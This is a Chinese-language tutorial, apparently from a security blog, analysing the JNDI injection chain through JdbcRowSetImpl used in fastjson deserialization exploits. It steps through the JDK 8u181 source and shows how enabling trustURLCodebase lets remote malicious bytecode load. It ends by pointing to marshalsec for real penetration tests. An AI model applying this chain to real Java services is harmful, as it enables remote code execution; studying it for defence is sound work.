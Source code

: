 ### com.sun.rowset.JdbcRowSetImpl
目前要进行jndi注入，需要满足两个条件，在受害者要存在以下代码，且uri可控
```java
String uri = "xxx";
Context ctx = new InitialContext();
ctx.lookup(uri);
```
`com.sun.rowset.jdbcRowSetImpl`，是fastjson反序列化漏洞触发jndi注入的一环
查看jdbcRowSetImpl，我们客户端这样写

```java
JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();//只是为了方便调用
JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/aa");
JdbcRowSetImpl_inc.setAutoCommit(true);
```
运行起来报错是jndi unable connect，web服务也没有收到请求，客户端更不会执行恶意的字节码，
打断点调试，从而也进一步分析 
**jdk 版本8u181**
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_mp9ULzn7.png)
我们在`setAutoCommit(true)`处打断点，强制进入可以看见如下代码
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_F46VvHaw.png)
```java
// JdbcRowSetImpl.java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) { //不进入
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect(); // 进入此处,进行连接
        this.conn.setAutoCommit(var1); // 设置autoCommit为true
    }

}
```
在这里我们会进行下一步连接，我们继续看，325，326 行不就是标准的jndi注入吗？ 存在`new InitialContext()`，且`lookup(this.getDataSourceName)`，DataSourceName在初始的时候是setDataSourceName的，该值我们也是可控的
```java
// JdbcRowSetImpl.java connect() 关键代码
private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName()); //强制进入lookup，查看无法执行的原因
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```
又回到最开始调试JNDI注入的lookup处，我们继续跟进，进入lookup
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_33_MIz9ajW8.png)
再次进入lookup
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_34_FZufbotv.png)进入decodeObject
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_34_0jlLCtks.png)
走到这里发现居然抛出了错误，但是却看不见，这个错误也就是jdk8u181 的codebase错误，需要设置 `trustURLCodebase`为true
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_3tGoJ2SW.png)
可以看到没有调用NamingManager.getObjectInstance函数，直接异常捕获了
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_NDVcHBFq.png)
最后在这里直接close掉，所以并没有去获取到恶意字节码，就直接关闭连接了
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_35_GWb3ec5f.png)
为了避免这个尴尬局面，我在客户端设置属性 `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");`再来尝试一下，
发现设置codebase为true之后，就可以下载恶意字节码，并实例化执行constructor函数，弹出计算器
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_DA0ImUix.png)
在实际渗透中，一般使用marshalsec启动rmi或者ldap
下载marshalsec,查看marshalsec.jndi.RMIRefServer 文件，启动参数即是 `codebase_url#classname port`  默认端口是1099
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_oOu3bTNg.png)
使用工具效果如下
![image.png](JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链.assets/2023_05_19_10_36_36_RHk5UCOX.png)
